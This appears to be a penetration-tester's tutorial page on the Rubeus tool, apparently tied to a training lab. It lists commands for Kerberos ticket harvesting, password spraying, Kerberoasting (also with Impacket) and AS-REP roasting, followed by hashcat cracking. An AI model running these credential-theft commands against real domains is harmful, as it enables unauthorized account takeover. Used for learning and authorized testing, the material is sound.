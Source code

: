 # Rubeus

> Rubeus include many tools and attacks include overpass the hash, ticket requests and renewals, ticket management, ticket extraction, harvesting, pass the ticket, AS-REP Roasting, and Kerberoasting, etc.

{% embed url="https://github.com/GhostPack/Rubeus" %}

## Harvesting Tickets

_For pass the ticket attack_

`cd Downloads` - navigate to the directory Rubeus is in

`Rubeus.exe harvest /interval:30` - This command tells Rubeus to harvest for TGTs every 30 seconds

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1).png" alt="" width="563"><figcaption></figcaption></figure>

## Brute-Forcing / Password-Spraying

In password spraying, you give a single password such as Password1 and "spray" against all found user accounts in the domain to find which one may have that password.

This attack will take a given Kerberos-based password and spray it against all found users and give a .kirbi ticket. This ticket is a TGT that can be used in order to get service tickets from the KDC as well as to be used in attacks like the pass the ticket attack.

Before password spraying with Rubeus, you need to add the domain controller domain name to the windows host file. You can add the IP and domain name to the hosts file from the machine by using the echo command:

`echo MACHINE_IP CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts`

`cd Downloads` - navigate to the directory Rubeus is in

`Rubeus.exe brute /password:Password1 /noticket` - This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt="" width="523"><figcaption></figcaption></figure>

## Kerberoasting

### Rubeus

`cd Downloads` - navigate to the directory Rubeus is in

`Rubeus.exe kerberoast` This will dump the Kerberos hash of any kerberoastable users

copy the hash onto your attacker machine and put it into a .txt file so we can crack it with hashcat

`hashcat -m 13100 -a 0 hash.txt wordlist.txt` - now crack that hash

<figure><img src="../../../.gitbook/assets/image (5) (1) (1).png" alt="" width="563"><figcaption></figcaption></figure>

### Impacket

**Impacket Installation**

`cd /opt` navigate to your preferred directory to save tools in

download the precompiled package from https://github.com/SecureAuthCorp/impacket/releases/tag/impacket\_0\_9\_19

`cd Impacket-0.9.19` navigate to the impacket directory

`pip install .` - this will install all needed dependencies

**Kerberoasting w/ Impacket**

`cd /usr/share/doc/python3-impacket/examples/` - navigate to where GetUserSPNs.py is located

`sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip MACHINE_IP -request` - this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.

`hashcat -m 13100 -a 0 hash.txt wordlist.txt` - now crack that hash

## AS-REP Roasting

AS-REP Roasting dumps the krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled. Unlike Kerberoasting these users do not have to be service accounts the only requirement to be able to AS-REP roast a user is the user must have pre-authentication disabled.

### Dumping KRBASREP5 hashes

`cd Downloads` - navigate to the directory Rubeus is in

`Rubeus.exe asreproast` - This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes.

Crack hash with hashcat
